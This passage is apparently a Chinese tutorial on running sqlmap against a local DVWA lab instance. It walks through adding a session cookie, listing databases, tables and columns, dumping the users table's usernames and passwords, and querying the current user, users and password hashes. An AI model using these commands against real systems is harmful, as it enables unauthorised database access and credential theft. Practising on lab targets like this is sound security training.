 3.去对应sql map的目录下打开cmd操作即可



### 使用说明:

```
https://github.com/sqlmapproject/sqlmap/wiki/Introduction  //官方文档

https://cloud.tencent.com/developer/article/2300792   //中文相关文档
```

### 使用实例: (Windows)

1.安装

2.抓包url, 并在sqlmap目录下cmd输入

```
python sqlmap.py -u "http://192.168.231.128:12345/vulnerabilities/sqli/?id=1&Submit=Submit"
```

3.显示302重定向到登录页面, 说明需要cookie

复制cookie: PHPSESSID=qg16nb09dooabqr5ot6e0ilbg2; security=low

```
python sqlmap.py -u "http://192.168.231.128:12345/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=qg16nb09dooabqr5ot6e0ilbg2; security=low"
```

参数 : --batch 默认回答, --dbs  所有数据库名称相关信息 , --current-db  查看该数据库名称,  



拿到数据库名称为dvwa, 在执行:

-D dvwa --tables(列出dvwa数据库中全部表名), 拿到users表名

修改命令-D dvwa -T users --columns（如上图所示，列出user表中字段信息）, 拿到字段信息

修改命令-D dvwa -T users -C user,password,user_id --dump（一般数据库中的信息都会加密，这个命令可以直接显示解密后的情况，并且会自动保存到本地）

```
python sqlmap.py -u "http://192.168.231.128:12345/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=qg16nb09dooabqr5ot6e0ilbg2; security=low" --batch --dbs --current-db -D dvwa -T users -C user,password,user_id --dump
```



补充:

7、当前使用的账户

python sqlmap.py -r “响应包路径” --current-user

8、列出所有使用过的账户

python sqlmap.py -r “响应包路径” –users

9、mysql的登录账户和密码

python sqlmap.py -r “响应包路径” –passwords
